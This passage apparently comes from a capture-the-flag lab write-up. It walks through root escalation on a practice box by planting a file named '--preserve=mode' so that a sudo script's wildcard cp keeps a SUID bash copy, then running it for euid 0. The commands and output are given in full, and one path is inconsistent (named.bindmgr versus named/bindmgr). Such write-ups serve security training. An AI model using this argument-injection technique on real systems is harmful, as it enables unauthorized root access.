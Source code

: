 Due to the way `bash`'s wildcard operator works, it is possible to pass arbitrary flags into `cp`. If there exists a file in the current directory named `--preserve=mode`, then this flag will get passed into `cp` which will ensure that the malicious binary does not lose its SUID capability.

Create a file in the current directory named `.version` containing the number 2.

```bash
$ echo 2 > .version
```

Create the malicious binary and make it SUID.

```bash
$ cp /bin/bash tgihf
$ chmod 4777 tgihf
```

Create the file `--preserve=mode` in the current directory.

```bash
$ echo "" > "--preserve=mode"
```

Run the script with `sudo`.

```bash
$ sudo /usr/local/bin/bindmgr.sh
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /dev/shm/tgihf.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors: 
    /etc/bind/named.conf.bindmgr:2: open: /etc/bind/named.bindmgr/--preserve=mode: file not found
```

The files should have been copied to `/etc/bind/named.bindmgr/` and the malicious binary should be SUID and owned by `root`. Execute it and note the effective user ID.

```bash
$ /etc/bind/named/bindmgr/tgihf -p
$ id
uid=1001(bindmgr) gid=1001(bindmgr) euid=0(root) groups=1001(bindmgr)
```

Collect the system flag to complete the box.
